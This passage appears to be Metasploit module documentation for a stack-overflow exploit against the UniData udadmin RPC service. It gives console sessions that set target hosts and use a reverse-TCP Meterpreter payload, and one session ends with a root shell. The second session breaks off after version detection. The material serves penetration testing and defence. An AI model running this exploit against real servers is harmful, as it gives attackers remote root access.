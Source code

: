 Currently, the only options are `8.2.4` and `auto`

## Scenarios

### Version 8.2.4 with auto-detection + unix command payload

```
msf6 > use exploit/linux/misc/unidata_udadmin_password_stack_overflow
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set LHOST ens160
LHOST => ens160

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set VERBOSE true
VERBOSE => true

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
[*] 10.0.0.198:31438 - Using the version number from earlier for targeting: 8.2.4
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as qvvJpicOdkHUbWXb with a stack-overflowing password
[*] 10.0.0.198:31438 - Payload sent
[*] Sending stage (24772 bytes) to 10.0.0.198
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.198:54566) at 2023-04-11 09:44:21 -0700

meterpreter > getuid
Server username: root
```

### Version 8.2.4 with specific targeting + unix command payload

```
msf6 > use exploit/linux/misc/unidata_udadmin_password_stack_overflow
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set LHOST ens160
LHOST => ens160

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set VERBOSE true
VERBOSE => true

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set UNIDATA_VERSION 8.2.4
UNIDATA_VERSION => 8.2.4
msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
```